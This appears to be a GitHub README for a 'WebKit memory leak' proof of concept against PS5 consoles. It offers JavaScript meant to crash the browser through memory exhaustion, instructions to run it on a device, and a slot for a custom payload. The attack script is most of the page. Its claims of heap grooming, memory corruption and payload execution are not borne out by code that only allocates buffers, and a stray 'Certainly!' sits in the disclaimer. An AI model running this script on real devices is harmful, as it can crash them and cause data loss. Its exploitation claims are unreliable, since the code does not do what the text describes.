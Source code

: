 # Overflow WebKit Memory Leak PoC

## **DISCLAIMER**

**THIS REPOSITORY IS FOR TESTING PURPOSES ONLY!**  
A significant portion of this code might be incomplete or ineffective. If this vulnerability is ever fully exploited, it will likely be done by someone with far more expertise. I do not claim to be an expert in exploit development!

This PoC is for **educational purposes only**. The author assumes no responsibility for any misuse of this code. 
Certainly! 
## Link
Follow this link for the exploit: [Overflow WebKit Memory Leak PoC](https://seregonwar.github.io/Overflow/)

## Description
This Proof of Concept (PoC) demonstrates a WebKit memory exhaustion exploit that I've been developing. It is functional in its current form but still requires full exploitation. Below, you'll find the JavaScript code that outlines how the PoC operates, along with an explanation of each step.

## How it Works
The code operates in five key steps:

1. **Heap Initialization**: Memory is allocated in a controlled manner to prepare for the attack.
2. **Heap Grooming**: The memory is manipulated to create gaps for exploit insertion.
3. **Memory Exhaustion**: The system's memory resources are continuously allocated and cleared to exhaust available memory.
4. **Payload Execution**: The exploit's payload is executed, triggering memory corruption.
5. **Exploit Execution**: All steps are run sequentially to trigger memory exhaustion and ultimately crash the system.

## Code

```javascript
// Step 1: Initialize Controlled Memory
function initializeHeap() {
    let buffers = [];
    for (let i = 0; i < 2048; i++) { // Reduced allocations
        buffers.push(new ArrayBuffer(500000)); // Smaller blocks of memory
    }
    return buffers;
}

// Step 2: Groom the Heap
function groomHeap() {
    let tempArray = [];

    // Allocate and deallocate in patterns
    for (let i = 0; i < 2048; i++) { // Reduced iterations
        let buffer = new ArrayBuffer(1000); // Allocate smaller blocks
        tempArray.push(buffer);
    }

    // Deallocate some of the buffers to create holes in the heap
    for (let i = 0; i < 1512; i++) { // Fewer deallocations
        tempArray[i] = null; // Free up space to create holes in the heap
    }

    return tempArray;
}

// Step 3: Memory Exhaustion Function
function memExh() {
    let bufferArray = [];
    for (let i = 0; i < 2048; i++) { // Reduced iterations
        bufferArray.push(new ArrayBuffer(900000)); // Allocate smaller buffers
        if (bufferArray.length > 512) { // Less aggressive clearing
            bufferArray = []; // Clear buffer array to exhaust memory
        }
    }
}

// Step 4: The Exploit Payload Function
function payload() {
    let largeString = "B".repeat(900000); // Smaller initial string
    let obj = {};
    let iterationCount = 0; // Counter to track the number of iterations

    while (true) {
        // String concatenation
        largeString += largeString;
        if (largeString.length > 100000000) { // Lower threshold for reset
            largeString = "B".repeat(900000); // Reset string to avoid overflow
        }
        memExh();
        iterationCount++;
        if (iterationCount > 64) break; // Control the number of iterations
    }
}

// Step 5: Perform the Exploit
function performExploit() {
    let controlledBuffers = initializeHeap(); // Initialize the heap
    let groomedHeap = groomHeap(); // Groom the heap

    // Start memory corruption
    memExh();

    // Run the payload
    payload();
}

// Execute the exploit
performExploit();
```

## Instructions

1. Copy and execute the above code on an exploitable PS5 (works up to version 9.60). This may not be applicable on PS4.
2. Remember, this is a PoC, and it should be used strictly for educational purposes.
3. Further testing and analysis are required to fully understand this vulnerability.
4. If needed, insert your custom payload inside the `payload` function.


## **WARNING**

Running this Proof of Concept (PoC) comes with **serious risks** to the target device, including but not limited to:

1. **Device Bricking**: Incorrect or unmodified execution of this code could result in an **irreversible brick** of the system, rendering it completely unusable. This means the device might stop functioning entirely, with no chance of recovery.

2. **Data Loss**: This PoC exploits memory vulnerabilities, which could lead to file corruption or the loss of important data.

3. **Incompatibility**: The exploit may not work on all firmware versions or devices. Running it on an unsupported system version could cause unexpected and damaging consequences.

4. **Hardware Damage**: Continuous memory exhaustion and allocation could stress the hardware resources, potentially causing long-term physical damage to the device.

5. **Legal Risks**: Unauthorized use of exploits or vulnerabilities on devices you do not own, or without explicit consent, could violate local laws or licensing agreements.

**DO NOT** run this code on critical devices or on devices that you are not prepared to lose. Modify the PoC and fully understand its workings before executing it to minimize risks. **The author is not responsible for any damage caused by using this code.**


## Credit
The credits for the structure on which this tool is based were written by the aforementioned idebty, the credits are therefore assigned to him for having found the flaw, I have only expanded the operation!:
**Author**: [idebty](https://x.com/idebty?t=MT_ShLOs9wP9hcH3GNtkNA&s=09)  
